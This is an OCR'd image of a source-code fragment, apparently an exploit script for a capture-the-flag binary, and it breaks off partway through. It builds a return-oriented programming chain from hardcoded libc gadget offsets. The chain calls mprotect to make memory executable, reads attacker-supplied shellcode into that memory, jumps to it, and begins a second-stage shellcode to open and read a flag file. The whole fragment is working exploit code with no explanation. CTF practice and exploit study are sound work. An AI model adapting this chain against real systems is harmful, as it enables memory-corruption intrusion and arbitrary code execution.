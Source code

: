 ```

    # libc_base_offset 0x1f4a0
    # 0x000c1e55 : syscall ; ret
    # 0x000293b8 : pop rax; ret
    # 0x00005365 : pop rsi; ret
    # 0x0009da40 : pop rdx; ret
    # 0x0000367a : pop rdi; ret

    libc_base = 0x7ffff7a15000      # remote

    syscal = p64(libc_base + 0xc1e65)
    binsh = p64(libc_base +  0x000000000017CCDB)

    libc_base += 0x1f4a0
        
    poprax = p64(libc_base + 0x000293b8)
    poprsi = p64(libc_base + 0x00005365)
    poprdi = p64(libc_base + 0x0000367a)
    poprdx = p64(libc_base + 0x0009da40)

    # rop chain starts here

    # mprotect chain
    buf += poprax
    buf += p64(0xa)
    buf += poprdi
    buf += p64(0x00601000)
    buf += poprsi
    buf += p64(0x1000)
    buf += poprdx
    buf += p64(0x7)
    buf += syscal

    # read chain: read shellcode from user
    buf += poprax
    buf += p64(0x0)
    buf += poprdi
    buf += p64(6)
    buf += poprsi
    buf += p64(0x00601000)      # write shellcode here
    buf += poprdx
    buf += p64(0x100)
    buf += syscal

    # return to payload
    buf += p64(0x00601000)

    print "sending stage 1"
    r.send(buf)

    print "hit enter to send stage 2"
    raw_input()

    # read flag
    stage2 = ""
    stage2 += asm("mov rax, 0x0")
    stage2 += asm("mov rdi, 0x6")
    stage2 += asm("mov rsi, 0x00601090")
    stage2 += asm("mov rdx, 0x10")
    stage2 += asm("syscall")

    # open flag
    stage2 += asm("mov rax, 0x2")
```